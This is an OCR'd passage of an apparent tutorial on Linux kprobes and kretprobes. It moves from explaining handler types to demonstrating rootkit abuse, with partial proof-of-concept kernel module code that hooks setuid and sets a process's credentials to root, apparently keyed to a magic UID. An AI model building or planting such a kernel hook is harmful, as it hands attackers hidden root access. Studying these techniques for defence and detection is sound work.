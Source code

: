 types of kprobe handlers:
    pre_handler  - called before the probed function executes
    post_handler - called after the probed function executes but before the
                   function returns to the caller

A kretprobe is similar to kprobes but is specifically designed for functions
that return a value. It is used for tracing the return of functions, which is
particularly useful when you want to inspect or modify the return value of a
function. Kretprobes are inserted at the point where the function returns,
allowing you to monitor or alter the return value before it is passed back to
the caller.

Types of kretprobe handlers:
    entry_handler - called before the probed function starts executing
                    (similar to pre_handler in kprobes)
    handler       - called after the probed function has executed and returned
                    its value

Although kprobes and kretprobes are very useful for monitoring and debugging,
attackers are able to abuse them to hook into functions in the kernel and
manipulate them to behave maliciously at some point during their execution.

Below I will demonstrate how this can be done:

╔════════════════════════════════════════════════════════════════════════════╗
  [guest@archlinux rk]$ cat kp_hook.c
  #include <linux/kernel.h>
  #include <linux/module.h>
  #include <linux/init.h>
  #include <linux/atomic.h>
  #include <linux/kprobes.h>
  #include <linux/sched.h>
  #include <linux/capability.h>

  MODULE_AUTHOR("humzak711");
  MODULE_DESCRIPTION("POC kprobe hook");
  MODULE_LICENSE("GPL");

  atomic_t hooked = ATOMIC_INIT(0);

  #define MAGIC_UID 50

  #define _GLOBAL_ROOT_UID 0
  #define _GLOBAL_ROOT_GID 0

  void __x64_sys_setuid_post_handler(struct kprobe *kp, struct pt_regs *regs,
                                     unsigned long flags)
  {
      printk(KERN_INFO "setuid hook called, elevating privs...");

      struct cred *new_creds = prepare_creds();

      /* uid privesc */
      new_creds->uid.val=_GLOBAL_ROOT_UID;
      new_creds->euid.val=_GLOBAL_ROOT_UID;
      new_creds->suid.val=_GLOBAL_ROOT_UID;
      new_creds->fsuid.val=_GLOBAL_ROOT_UID;
